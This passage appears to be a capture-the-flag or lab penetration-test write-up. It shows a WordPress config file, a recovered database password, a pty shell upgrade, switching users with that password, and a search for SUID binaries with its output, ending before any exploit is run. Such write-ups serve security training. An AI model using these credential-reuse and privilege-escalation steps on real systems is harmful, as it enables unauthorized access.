 ```
 * visit the documentation.
 *
 * @link https://wordpress.org/support/article/debugging-in-wordpress/
 */
define( 'WP_DEBUG', false );

/* That's all, stop editing! Happy publishing. */

/** Absolute path to the WordPress directory. */
if ( ! defined( 'ABSPATH' ) ) {
        define( 'ABSPATH', __DIR__ . '/wordpress/' );
}

define('WP_HOME', '/wordpress/index.php');
define('WP_SITEURL', '/wordpress/');

/** Sets up WordPress vars and included files. */
require_once ABSPATH . 'wp-settings.php';
```

**Findings:**
- WordPress DB password: ImAScammerLOL!123! (likely scamsite password).

## Privilege Escalation

### Switching to scamsite User
Using the discovered password to switch users.

**Commands:**
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
su scamsite
Password: ImAScammerLOL!123!
```

### Identifying SUID Binaries
Searching for SUID binaries for potential escalation.

**Command:**
```bash
find / -user root -perm -4000 -print 2>/dev/null
```

**Output:**
```
/bin/umount
/bin/ping6
/bin/su
/bin/fusermount
/bin/mount
/bin/ping
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/gpasswd
/usr/bin/newgidmap
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
```